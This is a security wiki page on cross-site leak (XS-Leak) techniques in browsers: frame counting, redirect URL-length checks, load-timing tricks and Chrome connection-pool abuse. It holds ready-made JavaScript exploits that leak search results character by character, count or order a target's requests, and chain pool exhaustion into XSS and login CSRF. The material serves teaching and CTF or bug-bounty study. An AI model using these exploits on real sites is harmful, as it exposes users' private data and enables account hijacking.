

# XS-Leaks



Cross-Site Leaks (XS-Leaks) are a collection of techniques that allow an attack to infer information of another site. Be it privacy related, or in case of a _private search functionality_, XS-Search to find full strings character-by-character.\
The [https://xsleaks.dev/](https://xsleaks.dev/) wiki collects a bunch of techniques with clear and concise information and should be your first source. Below are some more detailed explanations and ready-made exploits. As well as some techniques not mentioned there.

## Examples

An XS-Leak technique can only return a boolean answer, `true` or `false`. The questions we can ask are important to asses the impact. For example:

* _Is the user currently logged in?_ -> By detecting a redirect to the login page
* _Does the user have access to this group?_ -> By detecting an access denied page
* _Is there a note containing "a"?_ -> By counting the number of iframes in search results

This last idea where we are targeting **search functionality** by far the most powerful, called [XS-Search](https://xsleaks.dev/docs/attacks/xs-search/). This has more than privacy implications because once the attacker guesses one correct character, they can expand their guesses from there to find more and more characters that still match results. In the end all data that the search functionality queries can be leaked.

<pre data-title="XS-Search to find &#x22;cat&#x22;"><code>/search?q=a     -> 0 results
/search?q=b     -> 0 results
<strong>/search?q=c     -> 1 result
</strong><strong>/search?q=ca    -> 1 result
</strong>/search?q=caa   -> 0 results
/search?q=cab   -> 0 results
/search?q=cac   -> 0 results
...
<strong>/search?q=cat   -> 1 result
</strong></code></pre>

Other use cases of XS-Leaks can be found in CSS Injection, where it is used to exfiltrate the result of selectors with a strict CSP ([#xs-leaks-without-network](css-injection.md#xs-leaks-without-network "mention")).

Some techniques require a window reference which can be acquired from calling [`window.open()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) or iframing the URL and reading `.contentWindow`. This techniques work without this though, and even bypass [Cross-Origin-Opener-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Cross-Origin-Opener-Policy).

### [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/)

One of the most classic techniques involves the [`window.length`](https://developer.mozilla.org/en-US/docs/Web/API/Window/length) property which is exposed cross-origin. It holds the number of frames inside of a window. This includes `<iframe>` and `<embed>`/`<object>` for some specific `type`s.

<pre class="language-php" data-title="Vulnerable example"><code class="lang-php">&#x3C;?php
$filteredNotes = array_filter($notes, function ($note) {
    return str_contains($note->title, $_GET["q"]);
});

foreach ($filteredNotes as $note): ?>
  &#x3C;h1>&#x3C;?= $note['title'] ?>&#x3C;/h1>
<strong>  &#x3C;iframe src="/note/&#x3C;?= $note['id'] ?>">&#x3C;/iframe>
</strong>&#x3C;?php endforeach; ?>
</code></pre>

The above example generates iframes for each search result. So a successful query will have **more** than an unsuccessful one. We can detect this by opening the search page, waiting for it to load, and checking its `.length`.

<pre class="language-javascript" data-title="Exploit"><code class="lang-javascript">w = window.open();
function sleep(ms) {
  return new Promise(r => setTimeout(r, ms));
}
async function test(prefix) {
  w.location = `http://localhost:8000/search.php?q=${prefix}`;
  await sleep(500);  // ms load time
<strong>  return w.length > 0;
</strong>}
</code></pre>

You can then call this `test()` function with `await` to learn if the logged-in user has a note containing the query. Do this in a loop for every character, expanding the search each time you find a successful result to leak the full string:


```javascript
const ALPHABET = "{}abcdefghijklmnopqrstuvwxyz_";
let prefix = "s";

while (true) loop: {
  for (const c of ALPHABET) {
    if (await test(prefix + c)) {
      // Found true result
      prefix += c;
      console.log(prefix);
      break loop;
    }
  }
  break;  // If nothing found
}

alert(prefix);
```


Alternatively, you may also be able to detect the **negative** result by comparing to `0`:


```handlebars
{{#each notes}}
  <h1>{{ this.title }}</h1>
{{else}}
  <iframe src="/analytics"></iframe>
{{/each}}
```



```javascript
...
setTimeout(() => {
  resolve(w.length === 0);
}, 500);  // ms load time
```


### [Server-side redirect length](https://xsleaks.dev/docs/attacks/navigations/#inflation-client-side-errors)

If you are server-side redirected to 2 different length URLs depending on if the search was successful or not, this is detectable using the [Max URL Length](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url_display_guidelines/url_display_guidelines.md#url-length). If it exceeds 2MB (2097152 characters), the browser will show a failure page at `about:blank#blocked` which is same-origin with the initiator.


```php
<?php
if (str_contains($secret, $_GET["q"])) {
  header("Location: /redirect-result/true", 302, true);
} else {
  header("Location: /redirect-result/false", 302, true);
}
```


This is vulnerable because we can _pad_ the length of the URL with a hash fragment (`#`), which are kept across server-side redirects. You have to calculate the amount of padding required to make the shortest of the 2 options barely go through, while the longest gets blocked for going over the limit.&#x20;

In the above example, `/true` is shorter than `/false`. Then after 2 seconds, we check if it's still same-origin or if it successfully went cross-origin.

<pre class="language-javascript" data-title="Exploit"><code class="lang-javascript">async function test(q) {
  w.location = "about:blank";
  await sleep(100);
  // Try to redirect
<strong>  const padding = (1&#x3C;&#x3C;21) - "https://example.com/redirect-result/true#".length;
</strong><strong>  w.location = "https://example.com/search?" + new URLSearchParams({ q }) + 
</strong><strong>               "#" + "A".repeat(padding);
</strong>  await sleep(2000);  // ms load time with large hash

  try {
<strong>    w.origin;
</strong>    return false;  // about:blank
  } catch {
    return true;  // cross-origin
  }
}
</code></pre>


**Note**: If the initial `/search` URL becomes longer than the maximum with padding, it is impossible to send the request as it will be blocked. Therefore you need the longest of the 2 redirect paths from the server to happen to be longer than the search query.


If your target is **iframable** (and cookies are `SameSite=None`), there is a much faster technique possible using the fact that [`onload=`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/iframe#error_and_load_event_behavior) is triggered cross-origin. We can simply load all possible characters at the same time, and only one should trigger the event because it barely successfully navigated. At this point we know the correct character and can continue on to the next.

This writeup shows an implementation of this technique:



### Measure top-level load time

It's easy to measure how long it takes to load an iframe using the `onload=` event. But doing so top-level on a site that doesn't allow iframing is harder, although still possible using this trick.

We essentially let it load, and at the same time perform some hashchanges on it, which don't reload the tab. These should insert history entries, but if the target is busy, they may be skipped. Using [`history.length`](https://developer.mozilla.org/en-US/docs/Web/API/History/length) it becomes possible to check how many navigations there were, telling us if the target was busy or not at some specific point in time.

<pre class="language-javascript" data-title="Exploit"><code class="lang-javascript">w = window.open()
async function isSlow(url) {
  const length = w.history.length;
  w.location = url;
<strong>  await sleep(500); // Loading time
</strong>  w.location = url + "#1";
  w.location = url + "#2";
  w.location = url + "#3";
  w.location = "about:blank";
  while (true) {
    try {
      w.origin;
      break;
    } catch {
      await sleep(100);
    }
  }
  // If it's hanging, it wouldn't have time to perform the hashchanges
<strong>  return w.history.length - length === 3;
</strong>}
</code></pre>

It allows you to detect the difference between `while (true) {}` and `while (false) {}` on the target. If there is any heavy operation, and you can confidently guess when that will take place on the target, set the loading time to this in the exploit.

Some situations where this can be useful is in detecting [#redos-catastrophic-backtracking](../../languages/regular-expressions-regex.md#redos-catastrophic-backtracking "mention"), because JavaScript's [`RegExp`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp) can be exponential too.\
Another use case is in [`querySelector`](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelector) or the similar jQuery implementation, when you have an injection into one of these functions. This can create expensive lookups that short-circuit if a match is found, creating a timing different. This difference is then detectable using the above technique.

More JavaScript execution timing attacks can be found here:



## Connection Pool

Chrome limit how many connection can be active at the same time. For HTTP requests, this limit is 6 **per origin** (origin of the request URL) and **256 globally**. Because this limit is _shared_ across sites, an attacker can affect it for the target site and the other way around.


**Warning**: These exploits (especially the leaking ones) can be pretty unreliable, especially across setups, due to all possible things that can interfere with it. Keep this in mind while testing


### Primitives

To keep the connection pool (almost) full, you should host a server that keeps the connection open for a while. Below is a simple Go server that has some endpoints for sleeping:



```bash
go mod init sleep
go mod tidy
go run sleep.go
```

Here are some useful functions that all the exploit below will use:


```javascript
const MAX_SOCKETS = 256; // May sometimes be 512
const SLEEP_SERVER = "sleep.YOUR_DOMAIN";

function sleep(ms) {
  return new Promise((resolve) => setTimeout(resolve, ms));
}
// Fetch 2-minute hanging endpoint, returning AbortController
function fetch_long(s) {
  controller = new AbortController();
  const signal = controller.signal;

  fetch(`http://${s}.${SLEEP_SERVER}/120`, {
    mode: "no-cors",
    signal: signal,
  });

  return controller;
}
// Fill all but one socket
function exhaust_sockets() {
  return Promise.all(Array.from({ length: MAX_SOCKETS - 1 }, (_, i) => fetch_long(i)));
}
// Abort a single slot to let other tab make request, then take it again
async function release_once() {
  blocker.abort();
  await sleep(0);  // Small time for target to make 1 single request
  blocker = fetch_long(1337);
}
// Quick fetch, and return performence entry
async function fetch_short(s) {
  performance.clearResourceTimings();
  const url = `http://${s}.${SLEEP_SERVER}/0`;
  await fetch(url, {
    mode: "no-cors",
  });
  return await waitForEntry(url);
}
async function waitForEntry(name) {
  while (true) {
    const entries = performance.getEntriesByName(name);
    if (entries.length > 0) {
      return entries.pop();
    }
    await sleep(0);
  }
}
```


### Counting requests

For XS-Leaks, the most useful effect is that if the pool is almost full (-1), the target and the attacker share one single slot for making connections. If the attacker's page keeps sending requests one after the other, measuring the time in between, they can detect whenever the target wants to get in between by making their own requests. With this you can **count requests** of the target.


Writeup explaining connection pool abuse to count CSS exfiltration requests


Below is an example that **measures** the time a `fetch()` takes on a remote website. This can be done by having the target request "stalled" (waiting for a slot to open up). Then open up one slot by calling `blocker.abort()` to let the target take its spot and immediately start fetching yourself.\
This resolves the target's fetch first and then starts on our request. If we compare the time that we called the fetch function ourselves, to when its DNS lookup started, we get a precise measurement of how long it was stalled. Meaning how long the target's request took.


```html
<script>
  fetch("https://example.com", {
    mode: "no-cors"
  })
</script>
```



```javascript
w = window.open("https://target.tld", "", "popup");  // Warmup
await sleep(2000);
await exhaust_sockets();
blocker = fetch_long(1337);
await sleep(2000);
w.location = "https://target.tld/fetch";
await sleep(5000);

await release_once();  // Let /fetch.php load
await sleep(1000);

blocker.abort();
await sleep(0);
// Measure how long my fetch was stalled
const start = performance.now();
const entry = await fetch_short("zzzzz");
console.log(entry.domainLookupStart - start);  // 93.19999999925494
```


The result of 93ms is very close to the real total time the fetch took:

<figure><figcaption></figcaption></figure>

55 + 32 + 5 = 92ms!

### Leaking subdomains

The order in which stalled requests are taken from the queue is not a First-In First-Out (FIFO) queue as you may expect it to be. Instead, they are ordered by some arbitrary properties of the request. Firstly, higher _priority_ requests are executed first ([table](https://web.dev/articles/fetch-priority?hl=en#resource-priority)). If these tie, the `GroupId` ([source code](https://source.chromium.org/chromium/chromium/src/+/main:net/socket/client_socket_pool.h;l=148-155;drc=58fb75d86a0ad2642beec2d6c16b1e6c008e33cd)) is compared and the smallest goes first.

It consists of the following properties which are all evaluated in order, if any of them tie, it checks the next property.

1. Port (eg. `80` or `8000`)
2. Scheme (`"http"` or `"https"`, [lexicographically](https://stackoverflow.com/a/13829456/10508498))
3. Host (eg. `sub.example.com`, lexicographically)

If the priority, port and scheme are the same, the hosts are compared lexicographically. Remember, this is a comparison between an attacker's request and a target's request, where the attacker can detect if their request was stalled or not.

If the target requested some random secret subdomain, we can compare it with our subdomain to learn its value character by character. That is the idea of this writeup below:


Leak subdomain using connection pool ordering


In terms of the exploit, see [their version](https://github.com/salvatore-abello/web-challenges/blob/main/X/salvatoreabello/exploit/index.html) as well as [my version](https://gist.github.com/JorianWoltjer/dc7696dcda6d041cc1f3af02f59b8236). It will likely take some effort to apply to your use case, but the basic idea is that you need some simple way to trigger the target request repeatedly so you can compare the subdomains.

### Delaying timing

One of the simpler uses of the Connection Pool not necessarily related to XS-Leaks, is delaying network requests of other sites. You can completely halt the browser by filling up the connection pool, then let requests go through one by one.

An example is XSS that requires something to go wrong, like a **fallback** being reached after a timeout of 5 seconds:


```javascript
setTimeout(() => {
  location = new URLSearchParams(location.search).get("fallback");
}, 5000)

location = "/safe";
```


You can exploit this by exhausting all by one socket initially, so you can open the target in a new window. Right after its connection is started, we block the connection pool fully, so it cannot load any subresources or perform its `/safe` navigation. 6 seconds later, we open it up again and the fallback triggers.


```javascript
await exhaust_sockets();
w = window.open("https://example.com/?" + new URLSearchParams({
  fallback: "javascript:alert(origin)"
}));
const blocker = await fetch_long(1337);

await sleep(6000);  // Wait for setTimeout

blocker.abort("");  // This opens up the connection pool again
```


Another use case is **Client-Side Race Conditions**, where there is a specific timing you want your payload to hit which is hard to guess otherwise. An example is a script that fetches data and then saves it again to the current account. An exploit in this case would be:

1. Fetch data (as victim)
2. _Login CSRF as the attacker_
3. Save data (as attacker)

Then the attacker would be able to read the victim's data. The connection pool will help us get in between. In the following writeup this technique was part of my solution:




```javascript
w = window.open("https://example.com");
w2 = window.open("/csrf");
await exhaust_sockets();
blocker = fetch_long(1337);

await sleep(1000);
await release_once();  // 1. Fetch data (as victim)
await sleep(1000);

w2.document.forms[0].submit();  // 2. Login CSRF as the attacker
await sleep(2000);

blocker.abort();  // 3. Save data (as attacker)
```



```html
<form action="https://example.com/login" method="POST">
  <input type="hidden" name="username" value="hacker">
  <input type="hidden" name="password" value="Password123">
</form>
```



**Note**: during the CTF challenge, I had a weird issue where `release_once()` would let through more than 1 request. It had to do with many other images being in the queue, which for some reason let more other requests also go at the same time.\
This was solved by pre-loading the images, which may be possible in your situation.

